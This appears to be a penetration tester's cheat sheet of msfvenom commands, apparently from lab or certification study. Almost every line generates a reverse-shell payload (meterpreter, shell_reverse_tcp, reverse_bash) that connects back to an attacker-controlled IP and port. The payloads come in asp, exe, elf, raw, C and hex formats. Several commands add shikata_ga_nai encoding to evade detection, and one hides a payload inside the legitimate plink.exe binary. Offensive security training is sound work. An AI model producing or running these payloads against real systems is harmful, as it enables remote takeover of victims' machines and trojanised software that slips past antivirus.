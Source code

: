 
reverse asp shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
https://gist.github.com/sckalath/03b4f3945cb10f9b2575


list of available output formats
msfvenom --help-formats


msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.242 LPORT=443 EXITFUNC=process -b "\x00" -f js_le


find payloads with a specific size ** hotty hot
root@kali:/usr/share/metasploit-framework/tools/modules# ./payload_lengths.rb  | awk ' $2<=210'


msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.242 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.2.3 LPORT=6666 -f raw




*** See available options for a pyaload       ** hotty hot **
 msfvenom --payload-options -p windows/shell/reverse_tcp




*** executable payload for linux  [binary payload]
root@kali:~/cside/java-applet# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.171 LPORT=447 -f elf   > non-staged


*** executable for windows  [binary payload]
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe




*** embed binary payload into an existing executable
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.171 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o win-embeded.exe
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.98.15 LPORT=4444 -f exe -o 1.exe


*** list all available encoderrs
msfvenom -l


in raw format
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.98.15 LPORT=443  --platform windows R > shell.raw


with no exit function and good for code cave
msfvenom  -p windows/shell_reverse_tcp LHOST=192.168.100.XXX LPORT=4444 -f hex EXITFUNC=none


